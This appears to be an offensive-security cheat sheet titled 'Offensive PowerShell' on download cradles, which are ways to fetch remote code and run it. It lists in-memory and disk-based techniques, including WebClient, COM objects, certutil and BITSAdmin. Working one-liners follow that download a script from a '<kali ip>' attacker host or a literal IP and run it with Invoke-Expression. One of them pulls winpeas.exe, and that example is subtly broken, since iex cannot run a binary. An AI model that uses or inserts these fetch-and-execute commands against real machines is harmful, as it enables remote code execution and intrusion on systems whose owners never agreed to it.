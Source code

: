 # Offensive PowerShell

## Downloading and Execution

- A summary of methods we can use For **In-Memory** execution with PowerShell 2.0:

```powershell
Net.WebClient DownloadString Method
Net.WebClient DownloadData Method
Net.WebClient OpenRead Method
.NET [Net.HttpWebRequest] class
Word.Application COM Object
Excel.Application COM Object
InternetExplorer.Application COM Object
MsXml2.ServerXmlHttp COM Object
Certutil.exe w/ -ping argument
```

- A summary of methods we can use For **Disk-Based** execution with PowerShell 2.0:

```powershell
Net.WebClient DownloadFile method
BITSAdmin.exe
Certutil.exe w/ -urlcache argument
```

> These two methods are commonly referred to as **Download Cradles**

### From the PowerShell console
```powershell
iex (New-Object Net.WebClient).DownloadString("http://<kali ip>/script.ps1")
```

   //iex = Invoke-Expression

### From the cmd.exe
we can run the same command from a stardard windows command prompt:

```powershell
powershell.exe iex (New-Object Net.WebClient).DownloadString('http://<kali ip>/script.ps1')

powershell.exe iex (New-Object Net.WebClient).DownloadString("http://10.90.60.80:5923/winpeas.exe")
	//note that when executed within cmd.exe we need to use single quotes
```

### Net.WebClient DownloadString Method
```powershell

$downloader = New-Object System.Net.WebClient
$payload = "http://<kali ip>/script.ps1"
$command = $downloader.DownloadString($payload)
Invoke-Expression $command

```
